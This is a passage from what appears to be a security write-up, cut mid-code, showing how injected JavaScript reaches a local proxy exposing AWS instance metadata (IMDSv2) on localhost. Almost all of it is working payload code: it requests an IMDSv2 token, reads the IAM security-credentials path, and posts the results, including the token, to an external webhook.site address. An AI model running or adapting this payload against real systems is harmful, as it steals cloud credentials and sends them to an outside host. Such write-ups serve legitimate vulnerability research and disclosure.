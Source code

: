 ```js
    p.open("POST", webhook, true);
    p.setRequestHeader("Content-Type","text/plain;charset=UTF-8");
    p.send("ERROR: "+e.message);
}
```

The webhook received
```
STATUS: 401
```

Further inspection on typical IMDS endpoints like `PUT /latest/api/token` confirmed that this service was a reverse proxy exposing IMDSv2 endpoints on localhost:45198.

---

## 4. Retrieving IAM credentials via IMDSv2

IMDSv2 requires a token obtained via PUT to `/latest/api/token`. Using the proxy we can exfiltrate data from the IMDS:

```js
try {
    var webhook = "https://webhook.site/...";

    var t = new XMLHttpRequest();
    t.open("PUT","http://127.0.0.1:45198/latest/api/token",false);
    t.setRequestHeader("X-aws-ec2-metadata-token-ttl-seconds","21600");
    t.send();
    var token = t.status===200 ? t.responseText : '';

    var endpoints = [
        '/latest/meta-data/iam/security-credentials/'
    ];

    var out = "TOKEN: " + token + "\n\n";
    for(var i=0;i<endpoints.length;i++){
        var path = endpoints[i];
        try {
            var x = new XMLHttpRequest();
            x.open("GET","http://127.0.0.1:45198"+path,false);
            if(token) x.setRequestHeader("X-aws-ec2-metadata-token",token);
            x.send();
            out += "PATH: " + path + "\nSTATUS: " + x.status + "\nBODY:\n" + x.responseText + "\n\n";
        } catch(e){
            out += "PATH: " + path + "\nERROR: " + e.message + "\n\n";
        }
    }

    var p = new XMLHttpRequest();
    p.open("POST", webhook, true);
    p.setRequestHeader("Content-Type","text/plain;charset=UTF-8");
    p.send(out);

} catch(e){
    var p = new XMLHttpRequest();
    p.open("POST", webhook, true);
    p.setRequestHeader("Content-Type","text/plain;charset=UTF-8");
    p.send("ERROR: "+e.message);
}
```
